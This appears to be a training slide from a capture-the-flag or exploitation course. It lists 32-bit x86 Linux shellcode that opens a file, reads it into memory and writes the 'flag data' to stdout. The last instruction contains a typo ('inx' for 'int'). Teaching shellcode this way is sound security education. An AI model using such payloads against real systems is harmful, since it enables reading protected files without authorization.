

# Write Shellcode
Open a handle to the file
mov	eax, 5					SYS_open
mov	ebx, 0x0804a03e		Pointer to “/usr/local/...”
mov	ecx, 0					O_RDONLY
int	0x80					Perform syscall
Read the file into memory
mov	ebx, eax				Put the file descriptor in ebx
mov	eax, 3					SYS_read
mov	ecx, 0x0804a03e		Just reuse this memory :)
mov	edx, 30					Length
int	0x80					Perform syscall
Write that memory to STDOUT
mov	eax, 4					SYS_write
mov	ebx, 1					STDOUT
mov	ecx, 0x0804a03e		Buffer containing the flag data
mov	edx, 30					Length
inx	0x80					Perform syscall